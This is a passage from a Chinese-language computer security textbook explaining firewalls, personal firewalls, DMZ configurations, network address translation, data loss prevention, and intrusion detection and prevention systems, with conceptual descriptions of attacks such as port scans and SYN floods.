这些场景中的每一个都可以作为修改后的代理来实现。因为代理的决策是基于通信数据的某些特性，所以我们称该代理为卫兵系统。由于卫兵系统实施的安全策略比代理的动作更复杂，因此卫兵系统的代码也更复杂，因而更容易出错。更简单的防火墙具有更少的可能故障或被颠覆的方式。卫兵系统进程的一个例子是所谓的“中国防火墙”，详见侧边栏 6-23。

### 侧边栏 6-23：中国的“防火长城”

中华人民共和国的统治者希望控制其居民能够访问的数据。据悉，Google 和雅虎/微软等内容公司被告知，如果想在中国开展业务，就需要采用其网络应用的特殊版本，以过滤掉“冒犯性词汇”。当 Skype 想要进入中国市场时，同样被告知必须清洗文本消息；结果是：Skype 文本现在会消除“法轮功”和“达赖喇嘛”等词汇。

《彭博商业新闻》报道称，中国雇佣了 30,000 人监控网站内容，并举报违反标准的网站 [ELG06]。所有互联网流量都通过一组政府控制的防火墙。任何包含禁用词的电子邮件或文本消息都会在防火墙处被丢弃。

作为在中国开展业务的条件，Google 被要求提供特殊的搜索功能，不允许访问某些被禁网站或呈现不可接受的内容。“天安门”是一个敏感词汇，“6 月 4 日”（起义日期）也是；将这些词输入搜索引擎，据 CNN 报道，会得到“根据相关法律法规和政策，部分搜索结果未予显示”的结果。但输入 `8x8`，其结果当然是 `64` 或 `6/4`（即 6 月 4 日的缩写），你可能会找到一些尚未被审查的博客条目 [SHA11]。Facebook 和 Twitter 当然也被审查，但人们总能找到巧妙的方法来规避审查。

在遵守中国限制数年后，Google 于 2010 年夏季正式退出中国大陆。最初，Google 的流量被重定向到香港的服务器，香港技术上属于中国，但享有高度自由。中国的防火墙和寻址服务器会重定向访问外部站点的尝试。

尽管从技术上讲不是防火墙，但中国的“防火长城”，正式名称是听起来更吸引人的“金盾工程”，确实执行着防火墙的功能。然而，正如引用的例子所示，过滤内容比单纯筛选地址要困难得多。

## 个人防火墙

防火墙通常保护包含多台主机的（子）网络。大学生和办公室员工都在真实防火墙的保护之下。越来越多的家庭用户、个人工作者和小企业使用有线调制解调器或 DSL 连接，享受无限制的“永远在线”接入。这些人需要防火墙，但用一台单独的防火墙计算机来保护单个工作站似乎过于复杂和昂贵。这些人需要以更低的价格获得防火墙的功能。

个人防火墙是运行在其所保护的工作站上的应用程序。个人防火墙可以通过筛选单个主机将接受的数据类型来补充传统防火墙的工作，或者在缺乏常规防火墙的情况下（如私人 DSL 或有线调制解调器连接）弥补其不足。

> **个人防火墙是运行在单个主机上以监控和控制该主机流量的程序。它只能在操作系统的支持下配合工作。**

正如网络防火墙筛选该网络的进出流量一样，个人防火墙筛选单个工作站上的流量。工作站可能容易受到恶意代码或恶意活动代理（ActiveX 控件或 Java 小程序）的攻击、存储在工作站上的个人数据泄露，以及旨在识别潜在弱点的漏洞扫描。个人防火墙的商业实现包括 McAfee 的 SaaS 端点防护、F-Secure Internet Security、Microsoft Windows Firewall 以及 CheckPoint 的 Zone Alarm。

个人防火墙被配置为强制执行某些策略。例如，用户可能认为某些站点（如公司网络上的计算机）高度可信，但大多数其他站点则不然。供应商有时会提供并维护不安全站点列表，其产品默认阻止访问这些站点。用户定义策略，允许从企业网段下载代码、无限制地共享数据和进行管理访问，但不允许从其他站点进行这些操作。个人防火墙还可以生成访问日志，万一有害内容漏过防火墙，这些日志可用于事后检查。

将恶意软件扫描器与个人防火墙相结合既有效又高效。通常，用户会忘记定期运行扫描器，但他们偶尔会记得运行，比如在一周中的某个时候。然而，将扫描器的执行交给用户的记忆意味着扫描器只能事后检测问题——例如当病毒已通过电子邮件附件被下载时。通过病毒扫描器与个人防火墙的结合，防火墙将所有传入的电子邮件导向病毒扫描器，后者在附件到达目标主机并被打开之前的那一刻，检查每一个附件。

个人防火墙运行在它试图保护的那台计算机上。因此，聪明的攻击者可能会尝试发动未被发现的攻击，以便在未来禁用或重新配置防火墙。正如侧边栏 6-24 所述，用户可能会破坏自己防火墙的安全策略。你在第 4 章中了解到，挂钩到操作系统的代码本身可能就是一个 Rootkit（潜在威胁），而另一方面，这种代码也可能容易受到 Rootkit 通过操作系统发动的巧妙攻击。尽管如此，特别是对于有线调制解调器、DSL 和其他“永远在线”的连接，静态工作站是持续存在的攻击群体眼中可见且脆弱的目标。个人防火墙可以为不在网络防火墙保护下的客户端提供合理的防护。

### 侧边栏 6-24：在防火墙上“打洞”

防火墙具有明显的安全优势，但有时它们会阻止善意用户访问所需的数据和功能。例如，防火墙通常阻止一台系统上的用户使用文件传输协议（FTP）向另一台系统上传或下载文件。因此，防火墙内部的人有时会在防火墙上“打个洞”，以便受信任的外部人员暂时进入。这种“洞”实际上是录入防火墙策略规则中的一个例外。这些漏洞允许文件共享、应用程序访问等。从技术上讲称为 SSH 后门，防火墙漏洞可以通过多种方式建立。一旦外部人员的工作完成，内部人员就会封堵漏洞，保护随之恢复。

某些操作系统允许有意突破防火墙的规则。例如，Windows XP 正式允许用户通过在 Windows 防火墙的管理屏幕上设置“例外”来创建漏洞，如图 6-58 所示。例外可以开放一个端口，或者最好是允许指定的程序或服务在防火墙内进行访问。


**图 6-58** 防火墙例外

## 防火墙类型的比较

我们可以总结一下我们已介绍的几种防火墙类型之间的差异。比较结果如表 6-6 所示。防火墙类型通常按从左到右由简单到复杂的顺序排列，个人防火墙除外，它更像是一个企业级包过滤器。但是，不要把“最不复杂”理解为最弱或最不理想；事实上，包过滤防火墙是企业网络的主力，能快速高效地阻挡大量不需要的流量。在研究此表时，请记住，防火墙与许多其他商业产品一样，陷入了营销竞争。最初作为简单包过滤器的产品很快就开始出现通常只在状态检测和应用层防火墙中才有的功能。因此，现在很少有产品符合刚才提出的那些清晰、独特的类型定义，该表的单元格描述的是基本属性，在实践中可能会得到增强。


**表 6-6** 防火墙类型的比较

## 防火墙配置示例

让我们看几个例子来了解如何使用防火墙。我们展示的场景旨在说明防火墙如何补充合理的安全策略和架构。

防火墙最简单的用法如图 6-59 所示。该环境在内部局域网和外部网络连接之间放置了一台筛选路由器。在许多情况下，当我们只需要筛选路由器的地址时，这种安装就足够了。


**图 6-59** 筛选路由器

然而，要使用代理机器，这种筛选路由器的位置并不理想。同样，将路由器配置为一组复杂的批准或拒绝地址也是困难的。如果防火墙路由器被成功攻击，与该防火墙相连的局域网上的所有流量都将可见。为了减少这种暴露，防火墙通常安装在其自己的局域网上，如图 6-60 所示。防火墙的局域网将流量馈送给一台路由器，用于用户机器的一个单独的受保护局域网。在这种配置中，外部可见的唯一流量是在防火墙的局域网上，其数据要么来自外部，要么注定要发往外部。


**图 6-60** 独立局域网上的防火墙

代理导致了一种略有不同的配置。代理主机-防火墙与内部系统和外部通信，因为它在外部看来就像一个内部主机。

代理应用的例子包括电子邮件、网页服务和文件传输。一个常见的情况提供了一个更详细的例子——用于网页服务器的代理应用：一家公司拥有内部网站结构，其中包含描述产品、客户以及可能的内部联系信息的页面。该公司维护一个受保护的产品数据库，包括库存量，但公司不想透露某产品的确切库存单位数。因此，每当系统准备显示产品页面时，防火墙就会查询数据库，并根据获得的结果，添加一行文字，显示“现货供应”、“仅剩少量”或“缺货”。防火墙充当用户的代理，代表外部用户访问数据库，但限制从查询返回的信息。

这种情况的典型架构如图 6-61 所示。网页服务器（也称为堡垒主机）位于其自己的局域网上，通过第二个防火墙与主内部局域网隔离。


**图 6-61** 应用代理

正如图 6-62 所示，相同的架构可以扩展。在该图中，可从外部访问的服务（如网页、电子邮件和文件传输）位于 `demilitarized zone` 或 `DMZ`（非军事区）中的服务器上，其名称源于军事缓冲空间，有时称为“无人区”，位于两支敌对军队所控制的领土之间。


**图 6-62** 非军事区

> **外部用户可以访问防火墙非军事区中的工具和数据，但无法访问受保护的内部网络上更敏感的资源。**

在所有这些示例中，网络架构至关重要。防火墙只能保护它能控制的内容，因此，如果子网络有未经过防火墙筛选的外部连接，防火墙就无法控制该未筛选连接上的流量。一个例子是拥有自己直接互联网连接的设备（可能是一个流氓无线连接)。正如我们在本章前面看到的，对一台设备的可见性（可能通过此处提到的无线连接）可以让攻击者获得对其他设备的可见性和访问权限。因此，通往每个受保护网络设备的唯一路径都必须经过网络的防火墙。

尽管这些示例是简化的，但它们展示了防火墙所保护的配置类型。接下来，我们回顾防火墙可以和不可以防范的攻击类型。

### 防火墙能——和不能——阻挡的内容

正如我们所见，防火墙并非所有计算机安全问题的完整解决方案。防火墙仅保护其环境的边界，防范想要在受保护环境中的机器上执行代码或访问数据的外部人员的攻击。请记住关于防火墙的以下几点。

- 防火墙只有在控制整个边界时才能保护环境。也就是说，只有当没有未经中介的连接突破边界时，防火墙才有效。如果即使只有一台内部主机通过无线连接等方式连接到外部地址，整个内网都将通过这台未受保护的主机变得脆弱。

- 防火墙不保护边界外的数据；已正确（出站）通过防火墙的数据暴露程度与没有防火墙时一样。

- 防火墙是安装中对外部最可见的部分，因此是最具吸引力的攻击目标。出于这个原因，多层不同的保护（称为纵深防御）比仅依赖单个防火墙的强度要好。

- 防火墙必须正确配置，随着内部和外部环境的变化，该配置必须更新，且必须定期审查防火墙活动报告，以寻找企图入侵或成功入侵的证据。

- 防火墙是入侵者的目标。虽然防火墙设计用于抵御攻击，但它并非坚不可摧。设计者有意将防火墙保持精小简单，以便即使入侵者攻破了它，防火墙也没有进一步的工具（如编译器、链接器、加载器等）来继续攻击。

- 防火墙仅对准许进入内部的内容实施微弱的控制，这意味着不准确的数据或恶意代码必须由边界内的其他手段来控制。

### 防火墙与网络安全

防火墙是保护连接到网络的环境的重要工具。然而，必须将环境视为一个整体，必须考虑所有可能的暴露面，且防火墙必须融入一个更大、更全面的安全策略中。仅靠防火墙无法保护环境安全。

### 网络地址转换 (NAT)

防火墙保护内部主机免受不可接受的入站或出站数据流的侵害。然而，正如本章前面所示，有时外部人员仅通过了解内部网络的架构、连接性，甚至规模，就能获得有价值的信息。当内部主机向外部人员展示其 IP 地址时（如果预期外部人员会回复，这是必要的），外部人员可以从地址模式推断出部分网络结构。此外，一旦该地址泄露，将永远为外部人员所知并可被利用。幸运的是，防火墙也可以防止此类信息泄露。

两个主机之间的每个数据包都包含源主机的地址和端口以及目标主机的地址和端口。端口 `80` 是 HTTP（网页）访问的约定编号。如图 6-63 所示，内部主机 `192.168.1.35` 端口 `80` 正向外部主机 `65.216.161.24` 端口 `80` 发送数据包。通过一个称为**网络地址转换 (NAT)** 的过程，源防火墙将数据包中的源地址 `192.168.1.35:80` 转换为防火墙自身的地址 `173.203.129.90`。防火墙还会在转换表中创建一个条目，记录目标地址、源端口和原始源地址，以便将任何回复转发给原始源地址。正如你所料，防火墙会在任何返回数据包上将地址转换回来。


**图 6-63** 网络地址转换

***

**网络地址转换隐藏了真实的内部地址；不知晓真实地址的外部人员无法直接访问它们。**

***

如果两个内部主机通过同一端口联系同一目标地址，该方案就会出现唯一的复杂情况，例如两个内部主机独立想要访问 [www.google.com](http://www.google.com) 的网页时，就可能发生这种情况。在这种情况下，防火墙会将其中一个请求主机的源端口号重写为一个随机的不同数字，以便防火墙能正确地重新转换返回数据包。内部主机 `192.168.1.35` 可能变为 `173.203.129.90` 端口 `4236`，而 `192.168.1.57` 可能变为 `173.203.129.90` 端口 `4966`。

外部世界只能看到整个安全内部网络的一个外部地址 `173.203.129.90`，因此外部人员无法推断内部网络的结构。事实上，外部人员不知道某一时刻的某次通信是否来自稍后某次通信的同一内部主机，从而在一定程度上屏蔽了各个内部用户。最后，知道内部人员的假设地址对外部人员日后没有帮助：如果外部人员稍后向同一地址发送伪造流量，防火墙将拒绝该流量，因为发送者的地址不再在转换表中。虽然网络地址转换主要用于解决另一个问题（公共地址数量有限），但它发挥着重要的安全作用。

### 数据丢失防护

我们以另一种类似于防火墙或卫兵的方法结束本节。**数据丢失防护** (DLP) 是指一组旨在检测并可能防止将数据发送到不允许去向的尝试的技术。关注的典型数据包括机密文档、专有信息和私人个人信息（如社会安全号、信用卡号）。在布拉德利/切尔西·曼宁维基解密丑闻（一名美军成员向维基解密网站泄露大量机密信息）和爱德华·斯诺登丑闻（一名 NSA 承包商向多家主流新闻机构泄露大量机密文件）之后，DLP 解决方案的普及度显著上升。

DLP 可以通过多种方式实现：基于代理的系统可能作为操作系统 Rootkit 安装，监控用户行为，包括网络连接、文件访问和运行的应用程序。基于网络的解决方案监控网络连接，特别是文件传输。其他解决方案可能针对特定应用程序，例如用于监控电子邮件的软件代理。DLP 解决方案通常会寻找各种指标：

* **关键词**。某些单词或短语，如“secret”（机密）、“classified”（绝密）或“proprietary”（专有），是敏感数据的强指标。DLP 解决方案还可能允许客户搜索对特定业务有特定含义的关键词，例如新产品的代号。

* **流量模式**。某些可能表明可疑行为的流量模式包括批量文件传输、连接到外部电子邮件或文件共享服务、发送邮件给未知收件人，以及连接到未知网络服务。

* **编码/加密**。强加密可以轻松绕过 DLP，因为没有 DLP 解决方案能确定其无法读取的文件的敏感度。为解决此问题，DLP 解决方案通常会阻止其无法解码或解密的出站文件。许多恶意软件扫描器以相同方式处理传入文件，如加密的电子邮件附件。

虽然 DLP 解决方案有助于防止意外数据泄露，但它们比本书讨论的其他安全解决方案更脆弱。坚定的攻击者通常能找到将数据传入系统的方法，尽管有效的 DLP 解决方案可能会减缓该过程，或及时提醒安全人员加以阻止。

DLP 系统为我们的下一个话题提供了良好的过渡。防火墙有时被称为边缘设备，意味着它们位于子网的边界。DLP 方法可以集成到防火墙中、安装在操作系统中，或连接到处理敏感数据的另一个应用程序。因此，DLP 技术不限于受保护子网的边缘。接下来我们将学习入侵检测和防护系统，这些监控产品也放置在子网内部。

## 6.8 入侵检测与防护系统

在边界控制、防火墙、认证和访问控制阻止某些操作后，一些用户被允许使用计算系统。这些控制大多是预防性的：它们阻止已知的坏事发生。许多研究（例如，参见 [DUR99]）表明，大多数计算机安全事件是由内部人员或冒充他们的人造成的，这些人不会被防火墙拦截。内部人员需要具有重要权限的访问权限来完成日常工作。绝大多数内部人员造成的危害并非恶意；而是诚实的人犯了诚实的错误。此外，还有潜在的恶意外部人员，他们以某种方式通过了防火墙和访问控制的层层筛选。预防虽然必要，但并非完整的计算机安全控制；事件发生时的检测能应对无法预先预防的危害。Larry Halme 和 Ken Bauer [HAL95] 调查了应对入侵的一系列控制措施。

入侵检测系统作为下一道防线，补充了这些预防性控制。入侵检测系统 (IDS) 是一种设备，通常是另一台独立的计算机，用于监控活动以识别恶意或可疑事件。Richard Kemmerer 和 Giovanni Vigna [KEM02] 回顾了 IDS 的历史。IDS 是一种传感器，就像烟雾探测器，如果发生特定情况就会发出警报。

### 入侵检测系统

正如烟雾报警器一样，检测危险需要采取行动。无论响应是呼叫消防部门、启动喷淋系统、拉响疏散警报、通知控制团队（或以上所有），取决于为处理事件预先制定了什么计划。IDS 同样具有响应功能。在许多情况下，响应是通知人工团队，由他们决定采取何种进一步行动。然而，有时 IDS 会进入保护模式，隔离疑似入侵者并限制访问。这样的系统称为入侵防御系统（IPS）。本节将介绍 IDS 和 IPS 技术。

图 6-64 展示了一个 IDS 模型。图中的组件是基于通用入侵检测框架 [STA96] 的入侵检测系统的四个基本要素。IDS 从传感器接收原始输入。它保存这些输入，对其进行分析，并采取一些控制行动。


**图 6-64** 入侵检测系统模型

IDS 执行多种功能：

- 监控用户和系统活动
- 审计系统配置中的漏洞和错误配置
- 评估关键系统文件和数据文件的完整性
- 识别系统活动中的已知攻击模式
- 通过统计分析识别异常活动
- 管理审计跟踪并突出显示用户违反策略或正常活动的行为
- 纠正系统配置错误
- 安装和操作陷阱以记录入侵者信息

没有单一的 IDS 能执行所有这些功能。让我们更仔细地看看 IDS 的种类及其在提供安全方面的用途。

#### IDS 的类型

入侵检测系统的两大类型是基于特征的和启发式的。**基于特征的**入侵检测系统执行简单的模式匹配，并报告与已知攻击类型对应的模式（特征）相匹配的情况。**启发式**入侵检测系统，也称为**基于异常的**，建立可接受行为的模型，并标记出该模型的例外情况；为了将来的检测，管理员可以将被标记的行为标记为可接受，以便启发式 IDS 现在将该先前未分类的行为视为可接受。因此，启发式入侵检测系统被认为能学习什么构成异常或不当行为。这种学习是通过工具的人工智能组件——**推理引擎**——识别攻击片段，并评估这些片段与恶意行为的关联程度来实现的。

***

**基于特征的 IDS 查找模式；启发式 IDS 随时间学习不可接受行为的特征。**

***

入侵检测设备可以是基于网络的，也可以是基于主机的。**基于网络的** IDS 是连接到网络的独立设备，用于监控整个网络的流量；**基于主机的** IDS 运行在单个工作站、客户端或主机上，以保护该特定主机。

早期的入侵检测系统（例如 [DEN87, LUN90, FOX90, LIE89]）通过事后审查系统活动日志来发现已发生的潜在滥用行为。管理员可以查看 IDS 的结果，以发现并修复系统中的弱点。然而，现在的入侵检测系统实时（或近实时）运行，监视活动并及时发出警报，以便管理员采取保护行动。

##### 基于特征的入侵检测

针对已知攻击类型的简单特征可能描述一系列 TCP SYN 数据包依次发送到许多不同的端口，且时间间隔很短，这正是端口扫描的情况。入侵检测系统可能在第一个发往 80 端口的 SYN 包中发现异常，然后是另一个（来自同一源地址）发往 25 端口的 SYN 包。但随着越来越多的端口接收到 SYN 数据包，特别是那些通常接收很少流量的端口，这种模式反映了可能的端口扫描。同样，如果某些协议栈实现在接收到数据长度为 65535 字节的 ICMP 数据包时会失效，那么这样的数据包就是需要监视的模式。

基于特征检测的问题在于特征本身。攻击者会尝试修改基本攻击，使其不匹配该攻击的已知特征。例如，攻击者可能将小写字母转换为大写，或将“空格”等符号转换为其字符代码等价物 `%20`。IDS 必须基于数据流的规范形式工作，才能识别出 `%20` 与包含空格的模式匹配。攻击者可能插入伪造数据包供 IDS 检测，或打乱侦察探测的顺序，以故意导致模式不匹配。每种变体都可能被 IDS 检测到，但更多的特征需要 IDS 进行额外工作，从而降低性能。

当然，基于特征的 IDS 无法检测数据库中尚未安装特征的新攻击。每种攻击类型在某个时刻都始于一种新模式，IDS 无法预警其存在。攻击者也会尝试改变他们的特征。

基于特征的入侵检测系统倾向于使用统计分析。这种方法使用工具来获取关键指标的样本测量值（如外部活动量、活动进程数、事务数），并确定收集到的测量值是否符合预定的攻击特征。

***

**基于特征的 IDS 仅限于已知模式。**

***

理想情况下，特征应匹配攻击的每一个实例，匹配攻击的细微变体，但不匹配非攻击流量。然而，这一目标宏大但无法实现。

基于特征的入侵检测在某些类型的拒绝服务攻击上效果很好。例如，ping 和 echo-chargen 攻击因其独特的数据包类型而相对容易被发现。另一方面，一些攻击很难被入侵检测系统识别。因为泪滴攻击依赖于许多无法正确拼合的数据包，IDS 只有在收集了所有或大量数据包片段的信息后才能注意到该攻击。而且因为数据包分片是大多数流量的特征，IDS 需要维护几乎所有流量的数据，这是一项过于繁重的任务。同样，SYN 洪水攻击只能通过大量未匹配的 SYN-ACK 响应来识别；但因为 SYN-ACK 是三次 TCP 握手的一部分，它是每个建立的通信会话的一部分，这使得 IDS 难以将该行为归类为攻击。

##### 启发式入侵检测

因为特征仅限于特定的已知攻击模式，另一种形式的入侵检测变得很有用。启发式入侵检测不是寻找匹配，而是寻找异常行为。该领域的早期工作（例如 [TEN90]）侧重于个人，试图找到该人的特征，以帮助理解正常和异常行为。例如，一位用户可能总是以阅读电子邮件开始一天的工作，使用文字处理器编写许多文档，并偶尔备份文件。这些行为属于正常。这位用户似乎不使用许多管理工具。如果该人员尝试访问敏感的系统管理工具，这种新行为可能是线索，表明其他人正在冒用该用户的身份行事。

如果我们考虑一个正在使用的受损系统，它开始时是干净的，没有入侵，最后变得肮脏，完全被攻陷。管理员可能无法追踪系统从干净变为肮脏的使用过程；更有可能的是，最初偶尔发生一些小的“肮脏”事件，随着系统被更深度地攻陷，这些事件逐渐增加。任何一个单独的事件本身可能都是可以接受的，但它们的累积以及发生的顺序和速度，本可以作为某种不可接受的事情正在发生的信号。入侵检测系统的推理引擎持续分析系统，当系统的“脏度”超过阈值，或因素组合发出可能存在恶意行为的信号时，发出警报。

让我们考虑一个例子。属于 Ana 的一台网络计算机开始检查其他网络计算机，查看哪些计算机有可供其他网络用户使用的存储区域（文件）。当 Ana 探测 Boris 的计算机时，IDS 可能将该行为归类为异常，但 Boris 的计算机拒绝了她的访问，IDS 只是记录下被拒绝的访问请求。接着当 Ana 探测 Chen 的机器时，第二次尝试变得更加异常。结果发现 Chen 的机器具有面向网络开放的文件结构，Ana 获取了 Chen 机器上所有可访问文件的目录列表，IDS 将其标记为可疑。当 Ana 随后尝试复制 Chen 的所有文件时，IDS 识别出可能的攻击并向管理员触发警报。Ana（或使用 Ana 访问凭据的人）采取的任何单个动作本身都不重要，但累积起来导致怀疑加深，最终触发警报。

推理引擎以两种方式工作。一些被称为**基于状态的**入侵检测系统，它们观察系统经历的整体状态或配置变化。它们试图检测系统何时偏离到不安全模式。因此，在我们的例子中，状态将是：探测、再次探测、列出内容、复制内容。

或者，入侵检测可以基于已知恶意活动的模型工作，当当前活动与模型匹配达到一定程度时，入侵检测系统发出警报。这些被称为**基于模型的**入侵检测系统。这种方法已在 [[MUK94]](#bib01.html#bib_420) 中扩展到网络。后来的工作（例如 [[FOR96]](#bib01.html#bib_203)、[[LIN99]](#bib01.html#bib_370)）试图建立行为的动态模型，以适应一个人行为随时间的变化和演变。该技术将实际活动与已知的正常表示进行比较。例如，除了少数实用程序（登录、修改密码、创建用户）外，任何其他访问密码文件的尝试都是可疑的。这种形式的入侵检测称为**误用入侵检测**。在这项工作中，实际活动与已知的可疑区域进行比较。回到我们的例子，Ana 搜索开放文件然后复制大量文件属于误用。

对于启发式入侵检测系统，所有活动被归类为三类之一：良性/良性、可疑或未知。随着时间的推移，特定类型的动作可以从这些类别中的一个移动到另一个，对应于 IDS 对某些动作是否可接受的推断。

与模式匹配一样，启发式入侵检测受限于系统所见信息的量（以将动作归类到正确类别）以及当前动作与这些类别之一的契合度。

***

**启发式入侵检测通过跟踪可疑活动来推断攻击。**

***

数据流速率适用于检测洪水攻击。当特定目标接收到异常高速率的流量时，该流量会因某些原因脱颖而出。原因可能是合法的，例如许多客户因电视广告而访问某个站点；也可能是因为攻击。

###### 有状态协议分析

正如我们所指出的，如果要匹配的模式很长或可变，通过模式匹配进行入侵检测就很困难。SYN 洪水攻击具有简单的模式（`SYN`、`SYN-ACK`、无对应的 `ACK`），但这三个独立步骤分散在时间中；检测攻击需要识别步骤一，稍后发现步骤二，然后等待合理的时间才能确认步骤三为真。将入侵检测系统视为一个状态机，每个步骤对应一个状态，如 图 6-65 所示。IDS 需要记录它处于哪个状态。现在将状态数量乘以数十万个并发连接和许多用户。IDS 的逻辑很复杂：许多握手可能同时进行，IDS 必须维护每个握手的状态。


**图 6-65** IDS 状态机

其他协议具有类似的有状态表示。当 IDS 监控流量时，它将构建类似的状态表示，将流量与预期的交互性质进行匹配。不同协议及其不同的状态和转换条件，乘以实例数量（例如，任何时刻正在建立的并发 TCP 连接数量），使得 IDS 的记账工作变得极其复杂。

###### 前端 IDS 与内部 IDS

IDS 可以放置在受监控子网的前端或内部。**前端设备**在流量进入网络时对其进行监控，因此可以检查所有数据包；它可以花费所需的时间进行分析，如果发现被归类为有害的内容，可以在数据包进入网络前将其阻断。前端入侵检测系统可能在外部可见，因此它本身可能成为攻击目标。熟练的攻击者知道，使 IDS 的防御失效会让网络更容易受到攻击。


另一方面，前端 IDS 无法看到网络内部，因此无法识别源自内部的任何攻击。内部设备监控网络内部的活动。如果攻击者向受损的内部机器发送不起眼的数据包，指示该机器向该网络上的其他主机发起拒绝服务攻击，前端 IDS 将不会注意到该攻击。因此，如果一台计算机开始向另一台内部计算机发送威胁数据包（例如 `echo–chargen` 流），内部 IDS 将能够检测到。内部 IDS 也更能抵御外部攻击。此外，内部 IDS 可以学习内部机器和用户的典型行为，因此如果例如用户 A 突然开始尝试访问以前从未访问过的受保护资源，IDS 可以记录并分析该异常。

### 基于主机与基于网络

**基于主机的**入侵检测（称为 **HIDS**）保护单个主机免受攻击。它收集并分析该主机的数据。操作系统向 IDS 提供部分数据，传递经批准和拒绝的敏感资源访问请求、应用程序运行日志、动作的时间和日期及其他安全相关数据。设备要么自行分析数据，要么将数据转发到单独的机器进行分析，并可能与其他主机上的 HIDS 进行关联。基于主机的系统的目标是保护一台机器及其数据。然而，如果入侵者禁用了该 IDS，它就无法再保护其主机。作为目标计算机上的一个进程，也使 HIDS 暴露于被检测到的漏洞中。

#### 基于网络的 IDS (NIDS)

**基于网络的 IDS** 或 **NIDS** 通常是一个独立的网络设备，用于监控整个网络上的流量。它接收来自防火墙、连接计算机的操作系统、其他传感器（如流量监视器和负载均衡器）以及网络上的管理员操作的数据。NIDS 的目标是保护整个网络或一组特定的敏感资源，例如存放关键数据的服务器集群。检测软件还可以监控网络上通信的数据包内容，以检测例如一台主机（可能已被攻陷）对另一台主机的异常行为。网络 IDS 比基于主机的 IDS 更能保护自身免受检测或攻陷，因为网络 IDS 可以在所谓的隐身模式下运行，只观察而从不向网络发送数据。其网络接口卡甚至可以被限制为仅接收数据，绝不做任何会暴露其与网络连接的事情。

---

**HIDS 监控主机流量；NIDS 分析整个网络上的活动以检测针对任意网络主机的攻击。**

---

NIDS 的另一个优势是它可以通过独立于被监控网络的另一条网络发送警报。这样攻击者就不会知道攻击已被识别。

### 协议级检测技术

我们已经描述了需要不同种类检测的攻击，例如：

- Ping 和 echo 命令要求 IDS 检查单个数据包以确定数据包类型。
- 畸形数据包要求 IDS 检测数据包总体结构中的错误。
- 分片要求 IDS 随时间推移识别出数据单元的各个分片无法正确重组。
- 缓冲区溢出攻击要求 IDS 监控应用程序。

据称 IDS 在特定的网络层级或层上运行。例如，检测畸形数据包的 IDS 很可能无法同时监控应用程序数据，因为那将要求 IDS 完成重组数据包以提取应用层数据的所有工作。因此，不同的 IDS，或 IDS 套件的不同组件，在不同层级上监控网络。

#### 其他入侵检测技术

入侵检测系统最初作为研究项目被探讨（参见例如 [DEN86] 和 [ALL99]），并在 1990 年代中期开始作为商业产品出现。从那时起，研究与开发持续稳步进行，营销也是如此。现在，入侵检测功能有时嵌入在其他设备中（如路由器和防火墙），营销工作模糊了原本清晰独特的功能界限。因此，公司现在声称许多工具或产品都是入侵检测设备，并引入了新术语，供应商试图通过强调细微差别来获得竞争优势。

在接下来的章节中，我们将介绍入侵检测中涉及的其他一些工具和概念。

##### 代码修改检查器

一些安全工程师认为其他设备也是 IDS。例如，为了检测不可接受的代码修改，程序可以将软件代码的活动版本与该代码摘要的保存版本进行比较。`Tripwire` 程序 [KIM98]（见 第 4 章）是一个典型的静态数据比较程序。它可以检测对可执行程序和其他本不应或极少更改的数据文件的修改。

##### 漏洞扫描器

系统漏洞扫描器，如 `ISS Scanner` 或 `Nessus` [AND03]，可以针对网络运行。它们检查已知漏洞并报告发现的缺陷。

### 入侵防御系统

入侵检测系统主要在攻击开始后对其进行检测，自然而然地，系统或网络所有者希望在攻击发生前就将其阻止。以家庭窃贼为例。你安装锁来防止入侵，但如果动机足够强烈，这些锁真正阻止不了一个真正执着的窃贼，他们会砸窗而入或在屋顶上切个洞。俗话说，有志者事竟成。第二个困难是你永远不知道攻击者何时会发动攻击，攻击者是独自行动还是成群结队（成千上万），攻击者是人还是训练有素的蚂蚁大军，又或者路过的铜管乐队是否是攻击的一部分。你可能会安装一个家庭报警器，感应运动、压力、体温或攻击者的其他特征，这样无论攻击者如何进入，你或警察都会收到入侵通知，但即使是报警器也预设攻击者是人，而实际上可能是机器人或无人机。此外，此类报警器容易产生误报，因为家庭宠物或微风中移动的气球都可能触发警报。

同样，计算机系统面临许多可能的攻击，防止所有攻击几乎是不可能的。预判攻击者，实际上是预判*所有*攻击者，也几乎是不可能的。增加这些困难的是，要将攻击与良性但异常的行为区分开来。随着攻击的展开，检测攻击会变得更容易，因为此时恶意动机变得更清晰，且危害迫在眉睫或正在进行中。因此，随着证据的增加，检测变得更加确定；能够在坏事造成过大危害之前将其检测出来，是入侵检测系统赖以建立的前提。

相比之下，**入侵防御系统**，或 **IPS**，试图阻断或停止危害。事实上，它是一个具有内置响应能力的入侵检测系统。响应不仅仅是发出警报；自动响应包括切断用户的访问、拒绝来自地址 a.b.c.d 的所有流量，或阻断所有用户对特定文件或程序的访问。关于入侵检测系统所说的一切也适用于入侵防御系统。在下一节中，我们将探讨 IPS 在检测到疑似攻击后可以采取的一些行动。

---

**入侵防御系统通过内置保护性响应扩展了 IDS 技术。**

---

#### 入侵响应

入侵检测是基于概率的。即使面对清晰的模式，例如大量的 ping 数据包，也许只是成千上万的人碰巧同时想测试服务器是否存活，尽管这种可能性极小。在采取行动时，特别是如果工具会自动触发行动，网络管理员必须权衡采取行动的后果与并非真正发生攻击的可能性。

##### 对警报的响应

无论类型如何，入侵检测系统在发现匹配时都会发出警报。警报范围可以从微不足道的（如在审计日志中记录一条笔记）到重大的（如向系统安全管理员发送寻呼）。特定的实现允许用户确定系统在特定事件上应采取什么行动。

可能的响应有哪些？范围是无限的，可以是管理员能想象到（并编程实现）的任何事情。一般来说，响应分为三大类（可以在单次响应中使用其中任何一类或全部）：

- 监控、收集数据，或许增加数据收集量。
- 保护、采取行动以减少暴露。
- 向其他保护组件发出警报信号。
- 呼叫人工介入。

##### 监控、防护与人工干预

监控适用于初始影响较小的攻击。也许真正的目标是观察入侵者，看看正在访问哪些资源或尝试了哪些攻击。另一种监控的可能性是记录来自特定源的所有流量，以供未来分析。这种方法对攻击者应当是不可见的。防护可以意味着增加访问控制，甚至使资源不可用（例如，切断网络连接或使文件不可用）。系统甚至可以切断攻击者正在使用的网络连接。与监控相反，防护对攻击者来说可能非常可见。最后，呼叫人工允许进行个体判断。IDS 可以立即采取初始的、也许过于强烈的防御行动，同时向人工发出警报，人工可能需要几秒、几分钟或更长时间来响应，但随后会采取更详细、更具体的对抗措施。

###### 警报

IDS 最简单、最安全的行动就是向管理员发出警报，由管理员决定后续步骤。人工最适合判断情况的严重性并选择对抗措施。此外，人工可以记住过去的情况，有时能识别出 IDS 可能无法检测到的关联或相似之处。

